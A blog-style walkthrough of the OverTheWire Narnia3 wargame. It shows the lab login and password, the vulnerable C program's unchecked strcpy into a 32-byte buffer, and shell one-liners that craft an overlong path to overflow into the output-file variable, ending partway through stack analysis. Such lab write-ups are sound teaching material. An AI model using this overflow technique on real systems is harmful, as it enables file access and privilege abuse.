 ```yaml
---
layout: post
title:  "Narnia Level 3"
date:   2015-10-12 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/)

This write-up was created on 6 October 2015.

First connect to the lab
* ssh narnia3@narnia.labs.overthewire.org
* Enter the following as the password vaequeezee

Change directories to the narnia games folder: `cd /narnia`

First let's examine how we get the password for the next level: `less narnia3.c`

```c
int main(int argc, char **argv){
 
 int  ifd,  ofd;
 char ofile[16] = "/dev/null";
 char ifile[32];
 char buf[32];
 
 if(argc != 2){
  printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
  exit(-1);
 }
 
/* open files */
 strcpy(ifile, argv[1]);
 if((ofd = open(ofile,O_RDWR)) < 0 ){
  printf("error opening %s\n", ofile);
  exit(-1);
 }
 if((ifd = open(ifile, O_RDONLY)) < 0 ){
  printf("error opening %s\n", ifile);
  exit(-1);
 }
 
/* copy from file1 to file2 */
 read(ifd, buf, sizeof(buf)-1);
 write(ofd,buf, sizeof(buf)-1);
 printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
/* close 'em */
 close(ifd);
 close(ofd);
 
 exit(1);
}
```

This is an interesting problem because the program accepts a command line argument and then does a strcpy() of argv[1], your first argument when running the program. When we check the man pages for strcpy() we find, "The  strcpy()  function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer  pointed  to  by  dest." We also find at the end of the man page a specific bug (shortcut is shift+gg):

```
BUGS
 If the destination string of a strcpy() is not large enough, then  any-
 thing  might  happen.   Overflowing  fixed-length  string  buffers is a
 favorite cracker technique for taking complete control of the  machine.
 Any  time  a  program  reads  or copies data into a buffer, the program
 first needs to check that there's enough space.  This may  be  unneces-
 sary  if you can show that overflow is impossible, but be careful: pro-
 grams can get changed over time, in ways that may make  the  impossible
 possible.
 ```
 
Great so now we know we have another buffer overflow, and you can find more information about buffer overflows at [exploit-db](https://www.exploit-db.com/papers/13207/). So knowing this information we now know that strcpy() will take everything it finds in argv[1] until it reaches a null character, but the buffer for ifile is only 32 bytes. If our argv[1] were longer than 32 bytes it would overflow into something, but now the question is:

* What is the something that argv[1] overuns?
* Can we take advantage of the buffer overrun and make it do something unintended?

First, lets make some files. Since we know that the buffer needs to be overrun by 32 bytes we need to name a file something that is larger than 32 bytes. After the file is created we can test our theory with:

```bash 
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
/narnia/narnia3 `pwd`/abc #test theory
```

This creates a directory in the tmp folder called aaaaaaaaaaaaaaaaaaaaaaaaaaa and the screenshot tells us that we are either overunning the ifile or the ofile. Let's examine which we are overrunning with `objdump -d -M intel /narnia/narnia3`


Beginning at 0x8048526 the character string /dev/null for ofile is placed onto the top of the stack at esp+58, followed by ifile at esp+38 as shown at 0x8048579.

